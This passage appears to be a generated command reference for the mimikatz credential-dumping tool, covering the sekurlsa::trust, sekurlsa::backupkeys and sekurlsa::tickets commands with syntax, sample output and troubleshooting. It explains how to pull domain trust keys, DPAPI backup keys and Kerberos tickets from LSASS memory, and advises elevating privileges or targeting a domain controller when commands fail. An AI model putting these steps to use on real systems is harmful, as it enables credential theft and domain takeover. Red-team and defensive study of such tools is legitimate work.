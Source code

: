 - **Potential errors & fixes:** Lack of output indicates the DPAPI service has not cached secrets yet—trigger DPAPI use (e.g., Credential Manager access) and rerun. Generic LSASS access errors can be mitigated by elevating privileges or analyzing an offline dump.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L629-L682】

### `sekurlsa::trust`
- **Availability:** Compiled only on x64/ARM64 builds because it reads KDC trust lists absent on 32-bit systems.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L28-L31】【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L685-L719】
- **Purpose:** Enumerate KDC domain trust objects, including trust keys and metadata.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L694-L719】
- **Syntax:** `sekurlsa::trust`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::trust
  Domain Trust : CONTOSO.COM -> FABRIKAM.COM
    Type       : Cross-forest
    Incoming   : aes256_hmac 32 b : a1b2...
    Outgoing   : rc4_hmac    16 b : c3d4...
  ```
- **Potential errors & fixes:** Running on a non-DC host yields no trust entries—target a domain controller. If the command is unavailable, switch to an x64 build.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L28-L31】

### `sekurlsa::backupkeys`
- **Availability:** x64/ARM64 only (same guard as `trust`).【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L28-L31】
- **Purpose:** Retrieve preferred and legacy DPAPI backup keys used to decrypt DPAPI master keys.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L820-L877】
- **Syntax:**
  - `sekurlsa::backupkeys`
  - `sekurlsa::backupkeys /export`
  
  * **Flags:**
  * `/export` — Passes an export flag into the analyzer so that recovered backup keys are written out, which you need when you want `.pvk`/`.der` output for later DPAPI master key recovery.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L862-L877】

  
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::backupkeys /export
  DPAPI Backup Keys :
    * Preferred : {GUID} (exported to 20240101-120000-preferred.pvk)
    * Legacy    : {GUID} (exported to 20240101-120000-legacy.pvk)
  ```
- **Potential errors & fixes:** If nothing exports, ensure you supplied `/export`; otherwise, only in-memory details are shown.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L862-L877】 A `Pattern not found in DPAPI service` error means the DPAPI module offsets were not located—verify the target build is supported and rerun after switching to a matching architecture build.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L796-L837】

### `sekurlsa::tickets`
- **Purpose:** List Kerberos tickets per logon session and optionally export them to `.kirbi` files.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L360-L465】
- **Syntax:**
  - `sekurlsa::tickets`
  - `sekurlsa::tickets /export`
  